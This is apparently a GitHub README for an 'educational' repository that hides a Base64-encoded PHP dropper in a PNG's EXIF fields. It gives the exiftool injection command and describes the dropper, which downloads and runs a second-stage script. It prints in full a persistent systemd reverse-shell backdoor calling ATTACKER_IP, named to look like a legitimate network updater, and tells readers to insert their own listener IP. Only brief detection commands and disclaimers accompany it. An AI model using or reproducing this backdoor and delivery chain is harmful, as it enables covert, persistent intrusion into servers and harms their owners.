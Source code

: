 ## Overview
This project demonstrates how an attacker can embed a Base64-encoded malicious payload inside the EXIF metadata of a valid `.png` image. Once uploaded to a vulnerable server, the image can trigger remote command execution or download further malware.

This educational repository simulates:
- A valid `stealth_shell.png` with hidden malware in its EXIF fields.
- A PHP dropper payload (`base64_php_payload.txt`) that retrieves and executes a persistent backdoor.
- A malicious `shell.sh` that sets up a systemd-based reverse shell.

Author: [BackdoorAli](https://github.com/BackdoorAli)

> For educational purposes only. Do not deploy in production or unethical environments.

---

## Files Included

| File                    | Description |
|-------------------------|-------------|
| `stealth_shell.png`     | Image containing the Base64-encoded PHP payload injected into EXIF fields |
| `base64_php_payload.txt`| The actual Base64-encoded dropper PHP payload |
| `shell.sh`              | Systemd-based reverse shell that gets downloaded and executed |

---

## How the Attack Works

1. Image Creation
   - A valid `.png` image is prepared (e.g., a portrait of myself for this specific project - refer to my GitHub's pfp).

2. Payload Preparation
   - A PHP payload is written that:
     - Uses `curl` to download `shell.sh`.
     - Saves it to `/tmp/.m`.
     - Makes it executable and runs it in the background.

3. EXIF Injection
   - The Base64-encoded PHP is injected into `Comment`, `UserComment`, and `Software` EXIF fields using `exiftool`:
     ```bash
     exiftool \
       -Comment="$(cat base64_php_payload.txt)" \
       -UserComment="$(cat base64_php_payload.txt)" \
       -Software="$(cat base64_php_payload.txt)" \
       stealth_shell.png
     ```

4. Execution (Hypothetical)
   - If a vulnerable backend server extracts the EXIF metadata and passes it to something like:
     ```php
     eval(base64_decode($image_exif_data['Comment']));
     ```
   - Then the PHP dropper is executed, downloads the backdoor, and grants persistent shell access.

---

## Backdoor (`shell.sh`)

This script creates a persistent systemd service that launches a reverse shell to an attacker's machine.

```bash
#!/bin/bash
SERVICE_NAME="system-netupd"
SHELL_CMD="/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"

cat <<EOF > /etc/systemd/system/$SERVICE_NAME.service
[Unit]
Description=Network Updater (Critical)
After=network.target

[Service]
ExecStart=$SHELL_CMD
Restart=always
Type=simple

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable $SERVICE_NAME
systemctl start $SERVICE_NAME
```

Replace `ATTACKER_IP` with your actual listener IP/port. >>> AGAIN, hypothetically! <<<

---

## Detection & Extraction
To view the injected payload:
```bash
exiftool stealth_shell.png | grep -i comment
```

To decode:
```bash
echo "<base64_output>" | base64 -d
```

---

## Defensive measures
See `defense.md` for detailed strategies on detecting and preventing EXIF-based malware delivery.

---

## Disclaimer
This project is for educational and research purposes only. Unauthorized deployment, testing, or use of this payload outside of a legal lab or your own system is strictly prohibited and of YOUR OWN RESPONSIBILITY.
